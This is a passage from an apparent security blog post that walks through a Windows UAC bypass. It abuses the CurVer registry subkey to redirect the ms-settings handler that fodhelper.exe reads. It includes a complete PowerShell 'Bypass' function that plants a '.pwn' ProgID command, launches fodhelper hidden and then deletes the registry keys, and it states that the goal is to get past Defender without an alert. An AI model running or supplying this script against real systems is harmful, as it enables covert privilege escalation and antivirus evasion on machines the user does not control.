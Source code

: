In an ideal world, this would be used to distinguish two identical applications with different versions as mentioned above. However, in our case, `CurVer` can be used to make a temporary version of the `Shell` subkey, which will in turn hopefully evade detections (as theoretically the original `Shell` subkey remains untouched). 

> Note: read <a href="https://docs.microsoft.com/en-us/windows/win32/shell/fa-progids" target="_blank">MSDN</a> for more information regarding programmatic identifiers. 

### The Magic
Now that we know what `CurVer` is and what it does, we can use it to our advantage. More specifically, we can abuse `CurVer` by setting the `Shell` subkey to the *ProgID* with the version name of e.g. `.pwn`. In order to achieve this, all we really need to do is slightly modify our previous PowerShell script.

```powershell
function Bypass { 
    Param (    
        [String]$program = "cmd /c start C:\Windows\System32\cmd.exe"
    )
    
    # Warning: a ProgID entry needs to be located in the HKCR (HKEY_CLASSES_ROOT) hive in order to take effect.
    #                                                    HKCR = HKLM:\Software\Classes
    #                                                         = HKCU:\Software\Classes
    New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
    Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
    New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
    Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
    
    Start-Sleep 3
    
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
    Remove-Item "HKCU:\Software\Classes\.pwn\" -Recurse -Force
}
```
If you have trouble seeing what's happening, imagine the procedure in multiple steps:
- Create a `HKCU:\Software\Classes\.pwn\Shell\Open\command` subkey with a custom *ProgID* of `.pwn`
- Create a `CurVer` subkey in `HKCU:\Software\Classes\ms-settings`
- Set the `CurVer` subkey's `(default)` value to the value of the chosen *ProgID* (`.pwn`) 

If configured correctly, the system should translate this registry setup into `HKCU:\Software\Classes\ms-settings\Shell\Open\command` by prepending `CurVer`'s registry path to `Shell\Open\command`. Note, that the final (concatenated) path is exactly the same as the path used in the original PowerShell script from <a href="https://twitter.com/netbiosx" target="_blank">netbiosX</a>.

With this change, *Defender* should now be tricked into believing that the original `command` subkey is untouched. As a result, we should be able to run the bypass without triggering an AV alert. 
